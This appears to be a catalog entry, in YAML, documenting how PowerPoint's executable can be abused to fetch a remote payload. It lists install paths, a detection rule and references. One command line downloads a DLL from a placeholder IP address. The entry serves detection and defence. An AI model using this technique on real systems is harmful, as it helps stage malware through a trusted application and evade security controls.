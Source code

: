 ```yaml
---
Name: Powerpnt.exe
Description: Microsoft Office binary.
Author: 'Reegun J (OCBC Bank)'
Created: 2019-07-19
Commands:
  - Command: Powerpnt.exe "http://192.168.1.10/TeamsAddinLoader.dll"
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in INetCache.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office16\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office15\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office14\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office12\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office12\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office12\Powerpnt.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_office.yml
  - IOC: Suspicious Office application Internet/network traffic
Resources:
  - Link: https://twitter.com/reegun21/status/1150032506504151040
  - Link: https://medium.com/@reegun/unsanitized-file-validation-leads-to-malicious-payload-download-via-office-binaries-202d02db7191
Acknowledgement:
  - Person: Reegun J (OCBC Bank)
    Handle: '@reegun21'
---
```

